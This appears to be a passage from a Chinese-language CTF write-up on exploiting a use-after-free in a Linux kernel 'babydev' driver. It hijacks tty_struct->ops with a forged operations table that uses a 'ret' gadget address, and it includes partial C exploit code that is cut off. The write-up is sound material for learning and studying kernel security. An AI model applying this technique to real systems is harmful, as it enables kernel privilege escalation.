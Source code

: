 可以看到这里关于`tty->ops`的使用只有两个位置: 

![image-20220213205035210](https://s2.loli.net/2022/02/13/SR9zNTde2fKXCPk.png)

另一个是 `tty->ops->write(tty, b, nr);`， 

两个不能同时触发， 判断条件为， `if (O_OPOST(tty)) {`， 可以在`include/linux/tty.h`找到这个宏的相关定义。对应的数据在偏移0x130的位置。

![image-20220213211420121](https://s2.loli.net/2022/02/13/1kJg7O2PxpsCS9z.png)

![image-20220213211727549](https://s2.loli.net/2022/02/13/eIPCNgsnX6mz7Hp.png)

奇怪的是我使用以下的exp进行调试的过程中发现这个值并不会被改变，一直进入`tty->ops->flush_chars`。

```c
#include <stdio.h>
#include <fcntl.h>

int main(){
    int fd1 = open("/dev/ptmx", O_RDWR);
    if(fd1 < 0){
        printf("open error\n");
        exit(-1);
    }
    write(fd1, "1234", 4);
    return 0;
}
```

但是在实际的题目调试中可以看到另一个调用 `tty->ops->write`

![image-20220213221845304](https://s2.loli.net/2022/02/13/SacWkZd2vUBhY3M.png)

然后这里是我们要利用的位置偏移(这是到这个位置 还得再加一个指针就是覆盖)，和对应的内存

![image-20220213214838032](https://s2.loli.net/2022/02/13/Y4SVI6GWZsrxLmJ.png)

![image-20220213214915795](https://s2.loli.net/2022/02/13/uLVzITeGmoJWhai.png)

## 利用

仍然是之前那个uaf的题目， 这次尝试使用这个`tty_struct`， 

### Fake_ops

和上个解法一样，open open ioctl close ， 然后open("ptmx") 可以得到`tty_struct`的地址，我们先read将数据读取，然后只修改`tty->ops`位置，修改到我们程序内的地址上, 

然后做一个伪造的ops结构体，其中的每个函数都写为 `0xffffffff81110c15: ret`地址, 第八个是write， 修改为随意一个地址进行测试。

```c

typedef unsigned long long  uint64;

void * fake_ops[0x34];

int main(){
    int fd1 = open("/dev/babydev", O_RDWR);
    if (fd1<0){
        printf("open /dev/babydev error\n");
        exit(-1);
    }
    int fd2 = open("/dev/babydev", O_RDWR);
    if (fd2<0){
        printf("open /dev/babydev error\n");
        exit(-1);
    }
```